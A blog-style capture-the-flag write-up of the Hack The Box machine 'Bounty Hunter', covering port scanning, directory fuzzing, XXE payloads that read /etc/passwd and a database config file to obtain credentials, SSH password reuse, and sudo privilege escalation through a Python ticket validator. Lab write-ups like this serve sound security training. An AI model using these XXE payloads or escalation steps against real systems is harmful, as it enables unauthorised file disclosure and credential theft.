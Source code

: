 ```yaml
---
title: "Bounty Hunter HackTheBox" 
date: 2023-07-05 17:20:00 0000+
tags: [WriteUp, BountyHunter, HTB, XXE, Vulnerbility, Linux, privesc]
categories: [WriteUps, HackTheBox]
image:
  path: /assets/images/BountyHunterHTB/preview_bountyhunter.png
---
```


# Bounty Hunter - Hack the Box Writeup

In this Hack the Box writeup, we will walk through the process of hacking into the **Bounty Hunter machine**. This machine requires a mix of web application exploitation and privilege escalation techniques. The first step is to perform a port scan and identify the open ports and services. From there, we will exploit a vulnerability in the web application to gain access to the machine. Finally, we will escalate our privileges to gain root access and complete the challenge.

![BountyHunter.png](/assets/images/BountyHunterHTB/BountyHunter.png)

## **Initial Reconnaissance**

The first step in the process is to perform a port scan using Nmap to identify the open ports and services. This will help us understand the attack surface and identify potential vulnerabilities to exploit.

```bash
nmap -sC -sV -v -T4 -p- -oA nmap/bountyhunter 10.10.11.100
```

After the Nmap scan we get 2 ports open which are **ssh(22) and http(80).**

![Untitled](/assets/images/BountyHunterHTB/Untitled.png)

Heading over to this → [http://10.10.11.100/](http://10.10.11.100/) opens up this webpage.

![Untitled](/assets/images/BountyHunterHTB/Untitled%201.png)

After enumerating the webpage further, I found only this [http://10.10.11.100/portal.php](http://10.10.11.100/portal.php) webpage, which says “Portal under development. Go here to test the bounty tracker.”

![Untitled](/assets/images/BountyHunterHTB/Untitled%202.png)

Which is further redirecting us to this [http://10.10.11.100/log_submit.php](http://10.10.11.100/log_submit.php), and opens up this page.

After filling the given fields, and submitting it. It returns this output.

![Untitled](/assets/images/BountyHunterHTB/Untitled%203.png)

I captured the following request in burp. Which then reveals a secret page in the webserver → [http://10.10.11.100/tracker_diRbPr00f314.php](http://10.10.11.100/tracker_diRbPr00f314.php), and also the data parameter in the request is base 64 encoded, decoding it base64 reveals that it is an XML request is being POSTED to the server.

![Untitled](/assets/images/BountyHunterHTB/Untitled%204.png)

So here we can try using the XXE injection, cause there may be a XXE vulnerability.

But before that let’s just enumerate the webpage further by fuzzing it. I have used feroxbuster to fuzz the webpage, you can use any tool you may like.

```bash
feroxbuster -u http://10.10.11.100/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -C 40
```

![Untitled](/assets/images/BountyHunterHTB/Untitled%205.png)

The feroxbuster’s output reveals an interesting php page in the webserver which is db.php, visiting it opens up a blank page.

## **Exploitation**

Now moving forward with our XML page which we found earlier, I tried using the XXE injection against it from [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection).

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd"> ]>
    <bugreport>
    <title>nothing &xxe; dean</title>
    <cwe>cwe=nothing</cwe>
    <cvss>cvss-12132</cvss>
    <reward>100</reward>
    </bugreport>
```

I base64 encode the above payload and then URL encoded it. Now using burp to send this request.

![burpsuite_output_etc_passwd.png](/assets/images/BountyHunterHTB/burpsuite_output_etc_passwd.png)

The sent request returns us this response with a base64 encoded string in it. Decoding it with base64 reveals the contents of /etc/passwd file on the server.

![base64decode_etc_passwd.png](/assets/images/BountyHunterHTB/base64decode_etc_passwd.png)

This reveals the user “development” on the box.

Now I tried a lot to upload a reverse shell to the box but its of no use, I couldn’t find any way to do so.

Then I remembered I found a db.php file on the web server. I tried sending that file.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
    <bugreport>
    <title>nothing &xxe; dean</title>
    <cwe>cwe=nothing</cwe>
    <cvss>cvss-12132</cvss>
    <reward>100</reward>
    </bugreport>
```

Again base64 and URL encoding the above payload and sending it. Reveals clear text credentials of “admin” user.

![database_cred.png](/assets/images/BountyHunterHTB/database_cred.png)

I tried SSHing in the box with user “admin” and its pass. But it doesn’t seem to work.

## **Shell as development**

Then I tried the same password with the user “development” which validates us and gives us a shell.

Simply listing the files in the default directory reveals the user.txt.

![Untitled](/assets/images/BountyHunterHTB/Untitled%206.png)

## Privilege Escalation

Now for the privesc part I tried listing files that can be ran with root permissions.

Reveals us this python [ticketvalidator.py](http://ticketvalidator.py) file.

![Untitled](/assets/images/BountyHunterHTB/Untitled%207.png)

After reading and analyzing the python code, I found that the [ticketvalidator.py](http://ticketvalidator.py) file only accepts the .md files and denies any other file. It also checks what is written inside of the file with proper syntax of how a ticket is created.

The first line of every ticket should contain → # Skytrain Inc

second line should contain → ## Ticket to

third line should contain → **Ticket Code:**_

The fourth line should contain two digits separated by a ‘+’ symbol returning a sum, and where the number before ‘+’ symbol should be divisible by 7 and returning 4 as the remainder.

Fulfilling the above criteria I created a script in the temp directory named [root.md](http://root.md). And also added an extra line stating the shell, which is true. This is script is being executed with root permissions which can give us a root shell.

![root.md.png](/assets/images/BountyHunterHTB/root.md.png)

```bash
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

![we r root.png](/assets/images/BountyHunterHTB/we_r_root.png)

Yeah!!! and like that we are root!!!.

Now moving forward and grabbing the root.txt.

![root.txt_final.png](/assets/images/BountyHunterHTB/root.txt_final.png)

THANKS GUYS FOR READING!

HOPE U LIKE IT!

HAPPY HACKING!!!

